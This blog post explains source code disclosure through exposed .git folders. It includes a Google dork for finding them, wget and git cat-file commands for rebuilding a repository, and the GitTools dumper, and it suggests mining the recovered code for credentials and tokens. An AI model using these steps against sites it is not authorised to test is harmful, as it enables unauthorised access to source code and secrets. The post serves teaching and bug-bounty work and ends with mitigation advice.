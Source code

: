```yaml
---
date: 2020-07-17 00:34:45
layout: post
title: "Insecure Source Code Management"
subtitle:
description: In this article, I will be explaining you the concept of a source code disclosure vulnerability and various risks associated with it.
image: /assets/img/uploads/source-code-disclosure/norris.png
optimized_image: /assets/img/uploads/source-code-disclosure/norris-optimized.png
category: exploitation
tags: source-code-disclosure bug-bounty
author: madhavmehndiratta
paginate: false
keywords: insecure source code management, source code disclosure, source code disclosure via .git folder, how to extract contents of .git folder, exploiting source code disclosure, infosec articles
---
```


## Introduction

When attacking a website, obtaining its source code can be extremely helpful for constructing an exploit. This is because many bugs, like SQL injections, are way easier to find using static code analysis as compared to black-box testing.
Obtaining a web application's source code also means getting a hold of all developer comments, hardcoded API keys, and all other sensitive data. So the source code of a web application should always be protected from public view. Many developers unknowingly upload the source code of their entire project to the internet, and this is where information leaks occur.

## Finding a .git Folder

<img src="/assets/img/uploads/source-code-disclosure/google-dork.png">

There are many ways by which you can find a .git folder. The most popular is by searching for the following Google Dork: 

`intitle:"Index of /.git"` 

If the directory listing is enabled, then you could directly browse the .git folder’s contents as shown in the image below.

<img src="/assets/img/uploads/source-code-disclosure/directory-listing.png">

Another way is brute forcing the directories using open source tools such as dirb or dirsearch. They both look for .git 		folder. If automated tools are not allowed, simply go to web-app/.git (e.g. https://example.com/.git) on a browser. If you get a 404 error, then .git/ doesn’t exist on the application. But in some cases if you get a 403 Forbidden error, then it does! but not directly accessible if directory listing is disabled on the server.

## Extracting the Files Manually

Once the existence of the Git folder is confirmed and directory listing is enabled, you can download it using wget by using:

```r
madhav@anton:~$ wget -r -np https://example.com/.git/
```

The next step is to locate the HEAD, and then extracting the master hash. Once you have the hash for the master branch, you can execute the following command: 

`git cat-file -p <master hash>` 

```r
madhav@anton:~/www.example.com/.git$ cat HEAD 
ref: refs/heads/master

madhav@anton:~/www.example.com/.git$ cat refs/heads/master 
1fae33780305157184cd5563dd7696d32be0d3c5

madhav@anton:~/www.example.com/.git$ git cat-file -p 1fae33780305157184cd5563dd7696d32be0d3c5
tree 546b9a0b104ec962ed4dce6154bf2022076cb9c9
parent 88e6c84c8dd8c38646772fb359866fcfcf8740e4
author Foo <example@gmail.com> 1583500079 +0100
committer GitHub <noreply@github.com> 1583500079 +0100
gpgsig -----BEGIN PGP SIGNATURE-----
 a9abJor19quHsI3ZWWcjOr0UnZ33sfIs8z0ITVV0O525j899LbmkIxLHmBnvgQ1y
 UeG5Js/OBaMBtv8j3Kbi4zzW+ETzvuqGGNSUXbv3OEEHRSaePkSQDiHwmpJAMCvC
 DmuFNwJpPL8T7hzX6jdM1r7i49KC70qooZKlx5+n9Y+0wHhSWWvEQmsJnl73oso9
 1wPYg3Qh+ImWvmOP2IDLuRG9qDd7uxd+Te09+CPnsjxF3n9lpbwlvJCievGY2DI=
 =lc27
 -----END PGP SIGNATURE-----

madhav@anton:~/www.example.com/.git$
```

This will give you the hash for the tree object which will lead you to the files of the project by executing the same command with the tree hash.

```r
madhav@anton:~/www.example.com/.git$ git cat-file -p 546b9a0b104ec962ed4dce6154bf2022076cb9c9
100755 blob 610cecd0bdab0faea045ef4f9bb861c862f7be03	LICENSE
100755 blob ec58df797c478eada515ea92bf3185ea6194edef	README.md
100644 blob 968a7233da85ea9edf0e56b223fe6ea1c6f1844e	cd.php
040000 tree 881998e68b54e759a8c06872aef8d5f4e9a08b39	css
100755 blob f4739221655f14501aa59da801d9708446bf01be	demo.php
100755 blob a5e1808b54ecf5119c4f8c2c3b868389f3fa6352	error.php
100755 blob 4061ddc0724b65ba54f6d1bbec4c4935e1f8649f	favicon.ico
040000 tree 979ce71e881e8e4fbf42da2cd547218f93daa4ea	font-awesome
040000 tree d8df5e7705085c10bffc38376394907b7514aa99	fonts
040000 tree 7a36fc98abdf572f629b85456e525242415dc76f	img
100755 blob f1c0edcfbd75ebad252dbeea4ab9c9df19712220	index.php
040000 tree bae3d0cfd5d74012d2fa35b9ccbfd74121d6f4d4	js
100755 blob 689d8cfad48fc2e0749ac0f2cb6786238d38287b	keybase.txt
040000 tree 444cc1c5c9c6a4bae757bc25adc9764f4a5a1485	less
100755 blob 2697029c1ba18340e044e6df68689548faed7a82	talks.php
madhav@anton:~/www.example.com/.git$
```
To extract the source code of the website into a compressed zip file, you can execute the following command:

```r
git archive --format zip --output "source.zip" <master-hash>
```

Now you will see a zip file named source.zip in the same directory. 

## Automating The Process

Browsing .git/ manually is good for proof of concept, but it is also a tedious job. If you want to retrieve as many files as possible, even with directory listing disabled, you can use the tool named <a href="https://github.com/internetwache/GitTools">GitTools.</a> 

```r
madhav@anton:~$ ./gitdumper.sh https://example.com/.git/ dest-dir/

git status          # To check the files that have changed
git checkout -- .   # To restore the files & download the directory
git log             # To see what other commits are there

```

Now you can analyze the local repository manually. Try to look for other vulnerabilities using static code analysis, or credentials, authentication tokens, new endpoints, etc.
## Conclusion

There are many famous websites which do not deny access to the .git/ folder therefore anyone can download their source code and possibly other sensitive data. This issue is not hard to detect and mitigate, so take a minute to make sure that your webserver isn’t misconfigured.

That’s it! I hope you understood the concept of source code disclosure vulnerability and the risk associated with it. Thanks for reading. Stay tuned for similar tutorials and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/fabric8">Fabricio Rosa Marques.</a>